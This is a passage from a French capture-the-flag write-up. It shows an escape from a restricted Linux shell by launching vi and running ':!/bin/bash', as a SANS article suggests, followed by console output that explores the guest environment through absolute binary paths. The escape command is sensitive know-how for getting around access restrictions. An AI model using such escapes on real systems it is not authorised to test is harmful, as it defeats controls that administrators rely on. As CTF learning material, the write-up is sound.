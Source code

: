 L'article [_Escaping Restricted Linux Shells_](https://www.sans.org/blog/escaping-restricted-linux-shells/) posté sur le site du SANS Institute par Doug Stilwell donne une astuce très précieuse : il est possible d'obtenir un shell à partir d'un éditeur de texte tel que ```vi``` ou ```vim```. Ça tombe bien, vi est l'un des seuls binaires que l'on peut appeler sur notre shell restreint. Une fois à l'intérieur de l'éditeur, la commande ```:!/bin/bash``` nous permet d'obtenir un shell digne de ce nom !

```console
guest@porteus:~$ vi

--snip--

:!/bin/bash

--snip--

~

bash: grep: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found

guest@porteus:~$ ls
Desktop/  Documents/  Downloads/  Music/  Pictures/  Public/  Videos/  prog/

guest@porteus:~$ cd prog

guest@porteus:~/prog$ ls -al
total 8
drwxr-xr-x  2 guest users 4096 Aug  6 11:00 ./
drwxr-xr-x 18 guest users 4096 Nov  4 11:30 ../
lrwxrwxrwx  1 guest users   11 Aug  6 11:00 vi -> /usr/bin/vi*

guest@porteus:~/prog$
```

C'est quand même plus sympa pour poursuivre et finir ce CTF ! Peu d'alias ont été créés dans le fichier ```.bashrc``` et la variable d'environnement ```$PATH``` est quasi-vide ; il est nécessaire de spécifier à chaque fois le chemin absolu des binaires appelés.

```console
guest@porteus:~$ echo $0
/bin/bash

guest@porteus:~$ echo $PATH
/home/guest/prog

guest@porteus:~$ /usr/bin/head -n4 .bashrc
# Setup color scheme <brokenman> for list call
alias ll='/bin/ls --color=auto -lF'
alias la='/bin/ls --color=auto -axF'
alias ls='/bin/ls --color=auto -xF'

guest@porteus:~$ uname -r
bash: uname: command not found

guest@porteus:~$ /usr/bin/uname -r
4.16.3-porteus
```

